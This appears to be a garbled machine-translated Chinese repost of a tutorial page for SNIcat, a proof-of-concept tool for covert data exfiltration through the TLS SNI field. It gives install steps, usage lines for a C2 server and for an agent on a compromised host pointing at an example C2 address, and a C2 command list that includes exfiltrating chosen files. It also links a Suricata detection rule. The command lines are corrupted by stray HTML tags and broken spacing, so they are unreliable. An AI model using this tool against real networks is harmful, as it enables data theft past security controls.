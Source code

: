 # SNIcat:服务器名称指示连接器

> 原文：<https://kalilinuxtutorials.com/snicat/>

[![SNIcat : Server Name Indication Concatenator](img//66f40b013a13299458a790b356cfdfb1.png "SNIcat : Server Name Indication Concatenator")](https://1.bp.blogspot.com/-pYNagw_4PfY/X1XGT9Ayo0I/AAAAAAAAHe0/GVr5EGMloyI5c2VMOSUYiytPMKQdPZS3ACLcBGAsYHQ/s728/SNIcat%25281%2529.png)

**SNIcat** 是一款概念验证工具，利用隐蔽通道方法通过以下方式执行数据渗透。*服务器名称指示*，一个 **TLS 客户端 Hello 扩展**。

该工具由一个驻留在被入侵的内部主机上的**代理**和一个控制代理并收集泄露数据的**命令&控制**服务器组成。

**背景&场景**

我们发现了一种新的隐蔽的数据渗透方法，它专门绕过安全边界解决方案，如 web 代理、下一代防火墙(NGFW)和 TLS 拦截和检查的专用解决方案。我们的测试验证了这是一个普遍存在的问题，它会影响不同类型的安全解决方案以及来自不同供应商的解决方案。我们针对 F5 Networks、Palo Alto Networks 和 Fortinet 的产品成功测试了我们的技术，并推测许多其他供应商也容易受到影响。

通过使用我们的渗透方法 SNIcat，我们发现我们可以绕过执行 TLS 检查的安全边界解决方案，即使我们使用的命令和控制(C2)域被安全解决方案本身内置的通用信誉和威胁防御功能阻止。简而言之，我们发现旨在保护用户的解决方案给他们带来了新的漏洞。

我们还提供了一个 [Suricata 签名](https://github.com/mnemonic-no/SNIcat/blob/master/signatures/snicat.rules)来检测这个特定的工具。

**安装**

*   **克隆存储库:**

**https://github.com/mnemonic-no/SNIcat.git**

*   **安装依赖项:**

**pip 3 install-r requirements . txt–用户**

**初始设置**

*   **C2**

从公开信任的 CA 获取通配符证书和密钥。这表示好证书和好证书密钥。利用自签名证书和密钥(不在任何信任存储中)作为 BAD_CERT 和 BAD_CERT_KEY。

**(*)用法:**' python 3 sni cat _ C2 . py<listening_port><good_cert><good_cert_key><bad_cert><bad_cert_key>log = { on | off } '</bad_cert_key></bad_cert></good_cert_key></good_cert></listening_port>
<listening_port><good_cert><good_cert_key><bad_cert><bad_cert_key>**(*)示例:**' python 3 sni cat _ C2 _ final . py 443 certs/good . PEM certs/good . key certs/SSL-cert-snake oil . PEM log = 1</bad_cert_key></bad_cert></good_cert_key></good_cert></listening_port>

*   **代理人**

**(*)用法:**' python 3 snicat _ agent . py<c2_server_ip><c2_server_port>log = { on | off } '</c2_server_port></c2_server_ip>
<c2_server_ip><c2_server_port>**(*)举例:**' python 3 snicat _ agent . py 192.0.2.1 443 log = off '</c2_server_port></c2_server_ip>

**用途**

C2 可用命令

**LIST—**显示当前文件夹中的所有内容
**LS—**仅显示当前文件夹中的文件
**SIZE—**显示当前文件夹中文件的大小
**LD—**显示当前文件夹中的每个目录
**CB—**向下移动到根树文件夹中—类似于“cd ..”
**CD<folder-id>–</folder-id>**<folder-id>上移指定文件夹</folder-id>
<folder-id>**EX<file-id>–</file-id>**<file-id>exculate 指定文件</file-id></folder-id>
<folder-id><file-id>**ALIVE—**check ALIVE/dead agent</file-id>
<folder-id><file-id>**EXIT—**退出 C2 服务器</file-id></folder-id></folder-id>

[**Download**](https://github.com/mnemonic-no/SNIcat)